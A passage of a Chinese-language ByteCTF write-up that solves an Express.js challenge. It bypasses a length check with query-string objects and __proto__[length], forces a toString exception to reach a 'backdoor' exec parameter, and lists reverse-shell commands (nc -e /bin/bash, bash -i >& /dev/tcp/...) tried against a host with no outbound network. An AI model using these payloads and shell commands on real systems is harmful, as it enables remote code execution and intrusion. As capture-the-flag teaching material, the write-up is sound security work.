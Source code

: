可以看到有个`exec`可以执行命令，然后就是经典的绕过环节了，首先看第一个需要他的长度大于`3000`并且`JSON.stringify`后要小于`1024`，这可让我犯了难，然后表哥们说这玩意可以直接传对象，带着`length`属性值大于`3000`就行，好家伙之前我还不知道`express`可以直接传递对象上去，那么就先在本地跑跑看看，首先将代码保存成`app.js`，然后本地目录运行命令即可。

```shell
$ npm install express
$ node app.js
```

然后可以打印一下`req.query.ByteCTF`尝试一下，然后我们访问`http://localhost:3000/?ByteCTF[a]=1&ByteCTF[b]=2`，就可以得到一个对象的输出。

```javascript
// http://localhost:3000/?ByteCTF[a]=1&ByteCTF[b]=2
// too short.
{ a: '1', b: '2' }
```

既然他能够被转换为对象，那么就直接写一个带`length`属性的对象进去，让他检查`length`的时候大于`3000`即可。

```javascript
// http://localhost:3000/?ByteCTF[__proto__][length]=100000&ByteCTF[a]=1
// Got it!
{ a: '1' }
```

可以看到输出的是`Got it!`，也就是能够成功执行到`res.end("Got it!")`这一行了，现在只需要让这个对象在拼接字符串的时候抛出异常就可以了，在`js`中对象转成字符串也是调用的`toString`方法，既然传递的是对象就完全可以将这个方法给他覆盖掉，直接传递一个值即可，因为传递的不是函数，而拼接的时候会尝试调用这个`toString`函数所以会抛出异常。

```javascript
// http://localhost:3000/?ByteCTF[__proto__][length]=100000&ByteCTF[a]=1&ByteCTF[toString]=1
// 抛出的异常是 TypeError: Cannot convert object to primitive value
// Nothing here!
```

可以看到输出是`Nothing here!`，之后我们只需要传递一个`backdoor`的`param`参数去执行命令就可以了。


```javascript
// http://localhost:3000/?ByteCTF[__proto__][length]=100000&ByteCTF[a]=1&ByteCTF[toString]=1&backdoor=echo%201
// exec complete,but nothing here
```

事情到这里看起来似乎是挺顺利，当然只是看起来，起初我还没能理解题目中`fully enclosed`是个嘛意思，然后尝试了一下`nc -e /bin/bash {host} {port}`去反弹`shell`，半天也没反应，想来可能发行版没有`-e`参数，于是就尝试`bash -i >& /dev/tcp/{host}/{port} 0>&1`，也没弹出来，然后看了看我机器的`nc -lvvp {port}`似乎也没问题，然后就去尝试了一下`dnslog`，然后尝试了`curl`和`ping`都收不到记录，然后我就理解了这个`fully enclosed`完全封闭是什么意思了，好家伙靶机不出网，这跟我玩蛇，现在是可以`RCE`但是拿不到东西，真难受。然后我想的是既然他得用`node`服务，能不能把这个`node`进程杀死然后用这个端口去通信，或者检测一下还有没有可以用的端口。然后队友表哥们玩了一个新花样，好家伙给我看傻眼了。 

先说点别的，之前看到过一个代码，具体的细节我不太记得清了，~~大概是这样的~~，找到原文链接了，在参考栏里，在这里基本就搬运一下了。

```java
boolean safeEqual(String a, String b) {
   if (a == null || b == null) {
       return a == b;
   }
   if (a.length() != b.length()) {
       return false;
   }
   int equal = 0;
   for (int i = 0; i < a.length(); i++) {
       equal |= a.charAt(i) ^ b.charAt(i);
   }
   return equal == 0;
}
```

